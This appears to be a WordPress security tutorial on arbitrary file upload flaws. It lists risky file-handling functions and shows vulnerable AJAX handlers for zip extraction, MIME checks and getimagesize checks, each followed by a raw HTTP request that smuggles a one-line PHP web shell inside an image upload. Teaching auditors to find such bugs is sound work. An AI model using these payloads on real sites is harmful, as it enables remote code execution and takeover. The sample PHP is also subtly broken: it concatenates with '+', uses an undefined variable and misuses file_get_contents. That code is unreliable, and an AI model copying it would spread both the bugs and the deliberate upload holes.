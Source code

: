 ```yaml
---
title: Arbitrary File Upload
contributors:
    - rafiem
---
```

## Introduction

This article covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
    - [`move_uploaded_file`](https://www.php.net/manual/en/function.move-uploaded-file.php)
    - [`file_put_contents`](https://www.php.net/manual/en/function.file-put-contents)
    - [`fwrite`](https://www.php.net/manual/en/function.fwrite)
    - [`fputs`](https://www.php.net/manual/en/function.fputs.php)
    - [`copy`](https://www.php.net/manual/en/function.copy.php)
    - [`fputcsv`](https://www.php.net/manual/en/function.fputcsv.php)
    - [`rename`](https://www.php.net/manual/en/function.rename.php)
- WordPress related
    - [`WP_Filesystem_Direct::put_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
    - [`WP_Filesystem_Direct::move`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
    - [`WP_Filesystem_Direct::copy`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user can control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
    $file = $_FILES["file"];
    $ext = end(explode('.',$file_name));

    if($ext !== "zip"){
        die();
    }
    
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    move_uploaded_file($file["tmp_name"], $file_path);

    $zip = new ZipArchive;
    $f = $zip->open($file_path);

    if($f){
        $zip->extractTo(WP_CONTENT_DIR + "/uploads/");
        $zip->close();
    }

}
``` 

To bypass the above check we need to prepare a valid zip file and add a malicious PHP file inside the zip file. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=unpack_fonts HTTP/1.1
Host: localhost
Content-Length: 227
Cookie: <AUTHENTICATED_USER_COOKIE>
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--

```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [`mime_content_type`](https://www.php.net/manual/en/function.mime-content-type.php)
- [`exif_imagetype`](https://www.php.net/manual/en/function.exif-imagetype.php)
- [`finfo_file`](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
    $file = $_FILES["file"];
    $file_type = mime_content_type($file["tmp_name"]);
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    
    if(in_array($file_type, get_allowed_mime_types())){
        move_uploaded_file($file["tmp_name"], $file_path);
        echo "file uploaded";
    }
    else{
        echo "file mime type not accepted";
    }

}
```

To bypass the above check we need to prepare a valid PNG file and append a malicious PHP code to the PNG file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:


```http
POST /wp-admin/admin-ajax.php?action=upload_image_check_mime HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
    $file = $_FILES["file"];
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    $size = getimagesize($file["tmp_name"]);
    $fileContent = file_get_contents($_FILES['file']);

    if($size){
        file_put_contents($file_path, $fileContent);
        echo "image uploaded";
    }
    else{
        echo "invalid image size";
    }

}
```

To bypass the above check we need to prepare a valid image file and append a malicious PHP code to the image file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_getimagesize HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/jpeg

<JPEG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

## Article References


Below are some of the findings related to Arbitrary File Upload:

- [AI Engine Plugin Affected by Critical Vulnerability](https://patchstack.com/articles/ai-engine-plugin-affected-by-critical-vulnerability/)
- [Multiple Vulnerabilities Patched in Themify Ultra Theme](https://patchstack.com/articles/multiple-vulnerabilities-patched-in-themify-ultra-theme/)
- [Critical Vulnerability in Elementor Affecting 5+ Million Websites](https://patchstack.com/articles/critical-vulnerability-in-elementor-affecting-5-million-websites/)
- [Pre-Auth Arbitrary File Upload in User Submitted Posts Plugin](https://patchstack.com/articles/pre-auth-arbitrary-file-upload-in-user-submitted-posts-plugin/)
- [Critical Arbitrary File Upload Patched in Forminator Plugin](https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Vulnerabilities Patched in Jupiter X Core Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-jupiter-x-core-plugin/#unauthenticated-arbitrary-file-upload)